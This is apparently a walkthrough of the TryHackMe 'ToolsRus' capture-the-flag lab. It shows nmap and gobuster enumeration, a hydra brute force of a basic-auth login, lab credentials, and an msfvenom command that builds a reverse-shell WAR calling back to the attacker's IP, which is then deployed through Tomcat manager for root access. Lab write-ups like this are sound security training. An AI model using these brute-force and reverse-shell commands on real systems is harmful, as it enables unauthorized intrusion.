# ToolsRus
**Date:** October  2022

**Author:** j.info

**Link:** [**ToolsRus**](https://tryhackme.com/room/toolsrus) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What directory can you find, that begins with a "g"?
- Whose name can you find from this directory?
- What directory has basic authentication?
- What is bob's password to the protected part of the website?
- What other port that serves a web service is open on the machine?
- Going to the service running on that port, what is the name and version of the software?
- How many documentation files did Nikto identify?
- What is the server version (run the scan against port 80)?
- What version of the Apache-Coyote is the service using?
- What user did you get a shell as?
- What text is in the file /root/flag.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

This answers question #8.

An additional all ports scan shows us:

```
PORT     STATE SERVICE VERSION
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

This answers question #5, #6, and #9.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 50 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 168]
/guidelines           (Status: 200) [Size: 51]
/protected            (Status: 401) [Size: 458]
```

This answers question #1.

<br>

## Website Digging

Visiting the main page:



Looking at /guidelines shows us:



This answers question #2.

Looking at /protected:



That answers question #3.

Looking at port 1234 shows us an unconfigured Apache Tomcat v7.0.88 server:



Running a gobuster scan on port 1234:

```
/host-manager         (Status: 401) [Size: 2098]
/manager              (Status: 401) [Size: 2536]
/docs                 (Status: 200) [Size: 19677]
/examples             (Status: 200) [Size: 1285]
```

/host-manager and /manager require a logi. I look around for default tomcat credentials and none of them work for either.

There isn't anything interesting in /docs or /examples.

I decide to try brute forcing the bob user we saw on the port 80 /protected page:

`hydra -l bob -P rockyou.txt $ip http-get /protected/`



That answers question #4.

We're able to login with that and see the following:



I login to the port 1234 /host-manager page and see:



After looking around the manager pages it looks like we can deploy our own to the server in WAR format:



I use msfvenom to create a reverse WAR shell:

`msfvenom -p java/shell_reverse_tcp LHOST=10.6.0.242 LPORT=4444 -f war -o shell.war`

I then choose browse, navigate to the shell.war file, and upload it. Clicking deploy starts it up for us:



<br>

## Root

Since the application is running and I didn't have my listener set up yet I click the stop button next to the application, start up a listener on my system, and then click the start button. This gives me a shell back as root:



That answers question #10.

NOTE: They ask us to use metasploit and you can use that to get a shell back like this:





That basically does exactly what we just manually did with msfvenom but gives a meterpreter shell instead.

Our shell is pretty terrible so I upgrade it:



And looking in /root shows us the flag we're looking for:



That answers the last question.

<br>

## Nikto

We still have one more question where it wants us to use Nikto to find some information on documentation files. I run it:

`nikto -h http://$ip:1234/manager/html -id "bob:bubbles"`

This takes quite awhile to complete, for me it was 34 minutes to be exact, and eventually comes back with our answer:



<br>

With that we've completed this CTF!

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **hydra** to brute force our way into a website login page
- Seeing that we can upload **WAR applications** to the website manager page and using **msfvenom** to create one and get a shell back
- Using **metasploit** to do the exact same thing
- Performing a vulnerability scan using **Nikto**

<br>

Many thanks to:
- **TryHackMe** for creating and hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)